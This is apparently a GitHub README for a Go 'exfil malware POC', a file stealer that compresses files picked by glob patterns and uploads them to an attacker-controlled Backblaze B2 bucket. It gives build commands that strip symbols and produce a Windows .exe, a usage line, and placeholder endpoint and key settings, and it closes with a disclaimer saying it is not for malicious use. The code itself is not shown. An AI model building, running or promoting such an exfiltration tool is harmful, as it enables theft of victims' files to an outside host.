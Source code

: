 # golang exfil malware POC

A high-performance file exfiltration/stealer for Backblaze B2 that uses goroutines for concurrent uploads and zstd compression for reduced file sizes.

## Features

- Concurrent file uploads using goroutines
- zstd compression with fastest preset
- Dynamic CPU-based worker scaling
- Progress tracking
- Glob pattern support for file selection
- Efficient memory usage with buffer pools
- Automatic file grouping for optimal uploads

## Prerequisites

- Go 1.19 or later
- Backblaze B2 account and credentials

# To Build

```bash
go build -ldflags="-w -s" -trimpath -o exfilPOC.exe ./cmd/uploader
```
or for linux (will require you to add in linux target dirs and skip paths in walker.go)

```bash
GOOS=linux GOARCH=amd64 go build -ldflags="-w -s" -trimpath -o exfilPOC.exe ./cmd/uploader
```




## Usage

```bash
./uploader.exe -glob "path/to/files/*.txt" -group-size 100000000
```
or just run it to use default config

## Configuration

The application is configured to use:
- Endpoint: s3.region-here.backblazeb2.com
- Bucket: bucket-name-here
- Key ID: key-id-here
- Key Name: key-name-here
- App Key: app-key-here

## NOTICE

This is a proof of concept and is not meant to be used in production or for any malicious purposes. I am not responsible for your actions, or repurposing of this code.




